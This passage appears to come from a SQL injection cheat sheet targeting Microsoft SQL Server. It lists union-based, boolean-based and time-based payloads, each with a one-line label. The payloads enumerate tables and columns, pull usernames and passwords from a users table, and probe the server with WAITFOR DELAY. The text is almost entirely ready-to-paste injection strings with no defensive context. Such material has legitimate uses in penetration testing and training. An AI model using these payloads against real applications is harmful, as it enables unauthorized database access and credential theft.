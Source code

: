 ```
' UNION SELECT NULL, @@version -- -
```

- **Database Name:** Extracts the current database name.

```
' UNION SELECT NULL, DB_NAME() -- -
```

- **Table Name Enumeration:** Lists the names of all user-defined tables.

```
' UNION SELECT NULL, name FROM sysobjects WHERE xtype='U' -- -
```

- **Column Name Enumeration:** Retrieves the column names for a specified table.

```
' UNION SELECT NULL, name FROM syscolumns WHERE id=OBJECT_ID('users') -- -
```

- **User Data Extraction:** Extracts usernames and passwords from the `users` table.

```
' UNION SELECT NULL, username, password FROM users -- -
```

### Boolean-Based SQLi

- **Checking MSSQL Version:** Evaluates to true if the MSSQL version starts with '8'.

```
' AND SUBSTRING(@@version, 1, 1) = '8' -- -
```

- **Determining the Number of Users:** Evaluates to true if there are more than 5 users in the database.

```
' AND (SELECT COUNT(*) FROM sysusers) > 5 -- -
```

- **Checking Existence of a Table:** Evaluates to true if the `users` table exists.

```
' AND (SELECT COUNT(*) FROM sysobjects WHERE xtype='U' AND name='users') > 0 -- -
```

- **Extracting Data from a Column:** Evaluates to true if the first character of the `users` table name is 'u'.

```
' AND (SELECT SUBSTRING(name, 1, 1) FROM sysobjects WHERE xtype='U' AND name='users') = 'u' -- -
```

### Time-Based SQLi

- **Basic Time Delay Test:** Causes the SQL Server to wait for 5 seconds. If the response is delayed, the injection point is likely vulnerable.

```
'; WAITFOR DELAY '0:0:5' -- -
```
